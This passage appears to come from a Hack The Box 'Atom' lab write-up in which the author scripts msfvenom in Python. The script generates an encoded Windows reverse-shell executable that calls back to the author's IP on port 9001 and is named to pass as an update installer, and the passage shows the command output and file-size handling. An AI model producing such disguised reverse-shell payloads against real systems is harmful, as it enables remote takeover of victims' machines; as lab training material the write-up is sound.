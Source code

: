 ```python

    #generate shell payload
    gen_payload(ip, port, payload, path)
```

Output:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/atom]
└─$ python3 send-payload.py 10.10.10.237 --lint tun0 --dir to-serve
IP Address on interface tun0: 10.10.15.4
msfvenom -a x86 --platform windows -p windows/x64/shell_reverse_tcp LHOST=10.10.15.4 LPORT=9001 -e x86/shikata_ga_nai -f exe -o to-serve"heedv1'Setup1.0.1.exe"
```

Looks good! I tried passing this command to `subprocess.run()` and spent a bit of time tweaking the syntax, before settling on using `call()` with `shell=True` instead. This passes the command to `bash` and lets it interpret the arguments instead. This worked!

```bash
┌──(mac㉿kali)-[~/Documents/HTB/atom]
└─$ python3 send-payload.py 10.10.10.237 --lint tun0 --dir to-serve
IP Address on interface tun0: 10.10.15.4
Running command: msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=10.10.15.4 LPORT=9001 -e x86/shikata_ga_nai -f exe -o "to-serve/heedv1'Setup1.0.1.exe"
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of exe file: 73802 bytes
Saved as: to-serve/heedv1'Setup1.0.1.exe
┌──(mac㉿kali)-[~/Documents/HTB/atom]
└─$ ls to-serve/
"heedv1'Setup1.0.1.exe"
```

## Getting Size of Payload

I initially tried using `subprocess` to get the file size, but it caused some issues with automatically escaping the `\` and `'` characters in the string (whatever combination I used).

```python
payload_path = '"' + path + 'heedv1\'Setup1.0.1.exe"'
print("Payload saved at: " + payload_path)

#get size of payload
size = subprocess.call('stat -c%s ' + payload_path)
print("Size: " + str(size))
```

I decided to use `os.path.getsize()` instead:

```python
#get size of payload
size = os.path.getsize(Path(payload_path))
print("Size: " + str(size))
```
